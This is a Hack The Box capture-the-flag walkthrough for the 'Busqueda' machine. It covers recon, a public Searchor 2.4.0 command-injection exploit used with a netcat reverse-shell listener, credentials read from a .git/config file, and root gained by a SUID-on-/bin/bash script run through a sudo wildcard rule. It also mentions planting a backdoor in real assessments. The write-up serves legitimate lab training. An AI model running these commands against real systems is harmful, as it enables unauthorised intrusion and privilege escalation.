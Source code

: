 ```yaml
---
title: "HTB | BUSQUEDA"
date: 2024-07-11 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```


![img-description](/assets/img/HTB/htb.png)

## Initial Access - Publicly Available Exploit leads to RCE

**Vulnerability Explanation:** The web application is running, 'Searchor 2.4.0', which has a publicly available exploit on github. Using the exploit leads to RCE.

**Vulnerability Fix:** Update the web application to the latest patch or remove it if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** The initial scan revealed that TCP port 80 is open. After adding 'searcher.htb' to /etc/hosts, Christian discovered a vulnerable version of 'Searchor' running. A public exploit was found off of github and used to gain inital access.

**Port Scan Results**

**TCP:** 22, 80

**UDP:** NA

Use autorecon to scan the target for open ports. Autorecon is an automated tool for basic enumeration well suited for CTFs where generating a lot of noise is not an issue. For this case, we will use it primarily for basic service enumeration.

TCP port 22, 80 was discovered.

* [https://github.com/Tib3rius/AutoRecon](https://github.com/Tib3rius/AutoRecon)

```shell
sudo autorecon 10.10.11.208
```
![img-description](/assets/img/HTB/BUSQUEDA/1.png)

Add 'search.htb' to the /etc/hosts file on your local machine so that we can access the site on port 80.

![img-description](/assets/img/HTB/BUSQUEDA/2.png)

Upon inspecting the web application. It reveals that it is using something called 'Searchor 2.4.0'.

![img-description](/assets/img/HTB/BUSQUEDA/3.png)

A publicly availble exploit can be found on github. .

* [https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

![img-description](/assets/img/HTB/BUSQUEDA/4.png)

![img-description](/assets/img/HTB/BUSQUEDA/5.png)

Download it to our host machine and run it along side a netcat listener to obtain a reverse shell

```shell
chmod +x exploit.sh
```
```shell
./exploit.sh searcher.htb 10.10.16.2
```
```shell
nc -nlvp 9001
```
![img-description](/assets/img/HTB/BUSQUEDA/6.png)

![img-description](/assets/img/HTB/BUSQUEDA/7.png)

We have successfully obtained initial access to the target machine as user 'svc'.

## Privilege Escalation - Exposed Credentials in Git Config File + Sudo Privileges

**Vulnerability Explanation:** An exposed set of credentials was found in the git configuration file. This password in this file is also used as the password to the 'svc' user. 'svc' has sudo privleges to the command vulnerable command which can be exploited to gain code execution as the root user.

**Vulnerability Fix:** 'cody' and 'svc' have their credentials compromised. Change it as soon as possible. Remove access to the git config file unless needed and remove the password from the git config file. Remove sudo privileges from 'svc' if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** Christian found plain text credentials in the git configuration file. The password of the credentials is also the password to the user account 'svc'. With this, he was able to view 'svc's' sudo privileges of "/usr/bin/python3 /opt/scripts/system-checkup.py *". He created a script that would set permissions for /bin/bash and had it executed via the available sudo command. Gained a root shell by calling /bin/bash with the flag -p.

Move into the '.git' directory and inspect the 'config' file. Credentials for user 'cody' are found within the file.

```shell
cd .git
```
```shell
cat config
```

![img-description](/assets/img/HTB/BUSQUEDA/8.png)

After a bit of bruteforcing with the newly found password, user 'svc' uses the same password. We can access svc's sudo privileges with the password.

```shell
sudo -l
```

![img-description](/assets/img/HTB/BUSQUEDA/9.png)

'svc' has sudo privs to a service called system-checkup.py along with a wildcard. We can use this to creat a malicious shell script that that will be executed with our sudo privs.

Adding the malicous script and giving it the proper permissions allows us to run the command and elevate our privs to 'root'.

```shell
echo -e '#! /bin/bash\nchmod u+s /bin/bash' > full-checkup.sh && chmod +x full-checkup.sh
```
```shell
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
```shell
/bin/bash -p
```

![img-description](/assets/img/HTB/BUSQUEDA/10.png)

![img-description](/assets/img/HTB/BUSQUEDA/11.png)

## Post Exploitation

Since this is a CTF the objective is only to retreive the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.
